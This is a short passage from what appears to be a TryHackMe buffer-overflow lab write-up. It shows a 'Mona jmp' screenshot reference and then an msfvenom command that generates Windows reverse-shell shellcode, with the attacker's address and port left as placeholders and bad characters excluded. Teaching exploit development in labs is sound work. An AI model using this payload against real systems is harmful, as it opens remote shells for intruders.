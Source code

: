 ![Mona jmp](/images/THM/buffprep/of8/Captura8.PNG)

##### Generating Payload

It's time to generate the payload.

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=<OUR IP> LPORT=<Port that we want> EXITFUNC=thread -b "\x00,\x1d,\x2e,\xc7,\xee" -f c
```
